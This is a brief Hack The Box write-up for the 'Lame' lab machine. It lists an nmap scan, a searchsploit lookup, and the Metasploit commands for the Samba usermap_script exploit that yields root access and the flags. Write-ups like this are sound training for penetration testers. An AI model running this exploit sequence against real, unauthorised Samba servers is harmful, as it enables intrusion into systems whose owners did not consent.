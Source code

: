 # Hack the box - Lame

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/linux.png"> </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.3</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 14</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Made by: </span><b>ch4p</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.3
```
![Nmap results](./nmap.png)

We can see there is anonymous FTP login on port 21 and 2 samba smbd services running.

___

## Gaining access

We will use searchsploit for checking vulnerabilities:

```
searchsploit samba 3 metasploit
```

![Searchsploit](./searchsploit.png)

Now it is clear that we can use metasploit to exploit backdoor vulnerability:

```
msfconsole
use exploit/multi/samba/usermap_script
set rhosts 10.10.10.3
exploit
```

![Exploiting](./exploiting.png)

After successful exploit, it seems that we have root access to the system so we can easily get the flags:

![Capturing the flags](./capturing_flags.png)